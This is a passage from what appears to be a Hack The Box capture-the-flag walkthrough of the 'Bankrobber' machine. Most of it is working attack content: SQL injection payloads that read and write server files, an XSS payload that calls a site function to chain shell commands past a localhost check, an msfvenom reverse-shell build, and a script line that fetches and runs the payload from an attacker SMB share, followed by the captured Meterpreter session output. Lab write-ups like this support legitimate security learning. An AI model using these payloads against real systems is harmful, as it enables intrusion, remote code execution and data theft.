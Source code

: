    File Read:
    term=1' UNION ALL SELECT 1,LOAD_FILE('C:/xampp/htdocs/admin/backdoorchecker.php),3;--

   File Write:
    term=1' UNION ALL SELECT 1,'this is the content of my test-file',3 into outfile 'C:/xampp/test.txt';--
    term=1' UNION ALL SELECT 1,load_file('C:/xampp/test.txt'),3;--


6. Backdoorchecker.php is secured in two way;
    First - Can only execute the command "dir", however it doesn't cancel the escape characters ; | etc.
    Second - Commands can only be ran from ::1

   The Second part is a issue, no matter how much we tamper with the HTTP Header (X-Forwarded-From etc.) it wont work. We need to
   find a way to get past this issue, and luckily there are two options - the hard way and the easy way.

    Hard - Create a javascript file to send a POST request to backdoorchecker.php with desired command in the "cmd" variable,
           and call it using the XSS vulnerability that gave us the admin cookie. Example:
              <iframe src="http://10.10.14.12/ping.js" height="0" width="0"></iframe> invisible iframe

    Easy - When logged in as admin, enumerating the site we find a javascript file called system.js. Within there's a function,
           callSys, used to trigger the commands towards backdoorchecker.php. We can call this script and function as a new user,
           from the comment filed (where we previously executed our XSS to get admin cookie) to get RCE. Example:

              <script type="text/javascript">callSys('dir|ping 10.10.14.12');</script>

              root@p3:/opt/htb/machines/bankrobber# tcpdump -i tun0 icmp
                tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
                listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
                11:58:13.611598 IP bankrobber.htb > p3: ICMP echo request, id 1, seq 5, length 40
                11:58:13.611631 IP p3 > bankrobber.htb: ICMP echo reply, id 1, seq 5, length 40


7. Use the RCE to trigger a reverse shell and grab user.txt

    Craft the payload:
    root@p3:/opt/htb/machines/bankrobber# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=4488 -f exe > br-rev.exe
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder or badchars specified, outputting raw payload
      Payload size: 341 bytes
      Final size of exe file: 73802 bytes

    Trigger the payload/reverse shell from the comments field:
    <script type="text/javascript">callSys('dir|//10.10.14.12/pub-share/br-rev.exe');</script>

    Capture the shell, and grab user.txt:
    msf5 exploit(multi/handler) > run
      [*] Started reverse TCP handler on 10.10.14.12:4488
      [*] Sending stage (180291 bytes) to 10.10.10.154
      [*] Meterpreter session 1 opened (10.10.14.12:4488 -> 10.10.10.154:56865) at 2020-02-05 13:05:25 +0100
